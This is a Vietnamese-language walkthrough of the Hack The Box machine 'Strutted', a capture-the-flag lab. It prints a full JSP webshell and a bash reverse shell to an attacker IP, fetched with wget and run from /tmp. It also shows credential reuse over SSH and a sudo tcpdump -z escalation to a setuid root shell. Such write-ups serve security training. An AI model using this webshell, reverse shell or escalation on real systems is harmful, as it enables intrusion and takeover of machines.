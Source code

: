 ![alt text](image.png)

![alt text](image-35.png)
# 1. Enumeration
Quét các cổng và dịch vụ của máy chủ đích 10.10.11.59.
```bash
┌──(root㉿lyquockhanh)-[~/Documents/HTB/Strutted]
└─# nmap -sC -sV 10.10.11.59 -oA Structted
```

![alt text](image-1.png)

Thêm tên miền strutted.htb vào file /etc/hosts
```bash
┌──(root㉿lyquockhanh)-[~/Documents/HTB/Strutted]
└─# echo "10.10.11.59 strutted.htb" | sudo tee -a /etc/hosts
```
![alt text](image-2.png)

Truy cập vào trang web

![alt text](image-3.png)

Thu thập thông tin về website , website được viết bằng ngôn ngữ java
![alt text](image-4.png)

Chỉ cho phép tải các file có định dạng JPG , JPEG , PNG , GIF! lên web 
![alt text](image-5.png)

Tải 1 ảnh đúng định dạng thì ảnh sẽ được lưu ở /uploads
![alt text](image-6.png)

Click download một file strutted.zip được tải về máy
![alt text](image-7.png)

Ta tìm thấy thông tin xác thực với vai trò quản lý , quản trị trong file tomcat-user.xml
![alt text](image-8.png)

Đọc file context.xml
![alt text](image-9.png)

Trong file pom.xml ta thấy  framework struts2 phiên bản 6.3.0.1
![alt text](image-10.png)

Ta tìm được phiên bản của Struts2 là 6.3.0.1
Ta tìm kiếm lỗ hổng về phiên bản Struts2  , ta biết được liên quan đến lỗ hổng CVE-2024-53677
![alt text](image-11.png)

Apache Struts là một framework mã nguồn mở phổ biến được sử dụng để xây dựng các ứng dụng web bằng Java. Nó đã tồn tại từ lâu và được nhiều tổ chức lớn sử dụng.

Về cơ bản, Struts cung cấp một tập hợp các công cụ và thành phần giúp việc phát triển ứng dụng web trở nên dễ dàng hơn, xử lý các tác vụ như nhập dữ liệu từ người dùng, xử lý dữ liệu, và hiển thị thông tin trên trình duyệt web. Hãy nghĩ về nó như một bộ khung (scaffolding) giúp lập trình viên xây dựng ứng dụng web một cách hiệu quả hơn
# 2. Exploit

Ta có webshell khai thác 

```bash
<%@ page import="java.io.*, java.util.*, java.net.*" %>
<%
    String action = request.getParameter("action");
    String output = "";

    try {
        if ("cmd".equals(action)) {
            // Execute system commands
            String cmd = request.getParameter("cmd");
            if (cmd != null) {
                Process p = Runtime.getRuntime().exec(cmd);
                BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));
                String line;
                while ((line = reader.readLine()) != null) {
                    output += line + "\n";
                }
                reader.close();
            }
        } else if ("upload".equals(action)) {
            // File upload
            String filePath = request.getParameter("path");
            String fileContent = request.getParameter("content");
            if (filePath != null && fileContent != null) {
                File file = new File(filePath);
                try (BufferedWriter writer = new BufferedWriter(new FileWriter(file))) {
                    writer.write(fileContent);
                }
                output = "File uploaded to: " + filePath;
            } else {
                output = "Invalid file upload parameters.";
            }
        } else if ("list".equals(action)) {
            // List directory contents
            String dirPath = request.getParameter("path");
            if (dirPath != null) {
                File dir = new File(dirPath);
                if (dir.isDirectory()) {
                    for (File file : Objects.requireNonNull(dir.listFiles())) {
                        output += file.getName() + (file.isDirectory() ? "/" : "") + "\n";
                    }
                } else {
                    output = "Path is not a directory.";
                }
            } else {
                output = "No directory path provided.";
            }
        } else if ("delete".equals(action)) {
            // Delete files
            String filePath = request.getParameter("path");
            if (filePath != null) {
                File file = new File(filePath);
                if (file.delete()) {
                    output = "File deleted: " + filePath;
                } else {
                    output = "Failed to delete file: " + filePath;
                }
            } else {
                output = "No file path provided.";
            }
        } else {
            // Unknown operation
            output = "Unknown action: " + action;
        }
    } catch (Exception e) {
        output = "Error: " + e.getMessage();
    }

    // Return the result
    response.setContentType("text/plain");
    out.print(output);
%>
```
Upload webshell lên
![alt text](image-12.png)
![alt text](image-13.png)

Đặt  vị trí webshell.jsp được tải lên
![alt text](image-14.png)

Sau khi upload thành công webshell tai truy cập vào đường dẫn chứa webshell

```bash
http://strutted.htb/WebShell.jsp?action=cmd&cmd=id
```

![alt text](image-15.png)
# 3. Foothold
Tạo 1 reverse shell cho dễ dàng tương tác với hệ thống.

Trên máy tấn công lắng nghe cổng 293
```bash
nc -lvnp 293
```
Khởi tạo 1 cổng http server trên máy tấn công 
```bash
python -m http.server 80
```
![alt text](image-18.png)

![alt text](image-16.png)

```bash
echo -ne '#!/bin/bash\nbash -c "bash -i >& /dev/tcp/10.10.16.46/293 0>&1"' > Exploit.sh
```
![alt text](image-17.png)

Mục tiêu : Tạo 1 máy chủ http chứa file Exploit.sh , trên web shell tải file Exploit.sh về hệ thống đặt ở thư mục /tmp và cấp quyền thực thi cho file Exploit.sh trong thư mục /tmp .
Thực thi file /tmp/Exploit.sh ta thu được reverse shell trên máy tấn công .

```bash
/WebShell.jsp?action=cmd&cmd=wget+http://10.10.16.46:80/Exploit.sh+-O+/tmp/Exploit.sh
```
![alt text](image-19.png)

```bash
http://strutted.htb/WebShell.jsp?action=cmd&cmd=ls+/tmp
```
![alt text](image-20.png)

```bash
http://strutted.htb/WebShell.jsp?action=cmd&cmd=chmod+777+/tmp/Exploit.sh
```
![alt text](image-21.png)

```bash
http://strutted.htb/WebShell.jsp?action=cmd&cmd=/tmp/Exploit.sh
```
![alt text](image-22.png)

![alt text](image-23.png)
![alt text](image-24.png)

Tìm người dùng trong hệ thống
![alt text](image-25.png)
Ta tim được username : james

![alt text](image-26.png) 

Ta sử dụng mật khẩu trước đó tìm được trong file tomcat-users.xml để kiểm tra xem có thể lấy được quyền người dùng james không
![alt text](image-27.png)

Ta thành công lấy được shell hệ thống  với quyền jame
bằng cách kết nối từ xa
![alt text](image-28.png)
```bash
ssh james@strutted.htb
```
![alt text](image-29.png)

# 4.  Privilege Escalation
Kiểm tra quyền người dùng james hiện tại

```bash
sudo -l
```
![alt text](image-30.png)
![alt text](image-31.png)

Ta tìm kiếm cách nâng quyền bằng tcpdump ta tìm được :
![alt text](image-32.png)

https://gtfobins.github.io/gtfobins/tcpdump/
Ta dùng câu lệnh đọc được file /etc/passwd sau đó ta thử đọc file /root/root.txt và thành công nhận được flag root

```bash
COMMAND='cat /root/root.txt'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
```
![alt text](image-33.png)

Ta có thể nâng quyền lên quyền root bằng dùng câu lệnh 
```bash
COMMAND='cp /bin/bash /tmp/lqkhanh && chmod +s /tmp/lqkhanh'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
```
![alt text](image-34.png)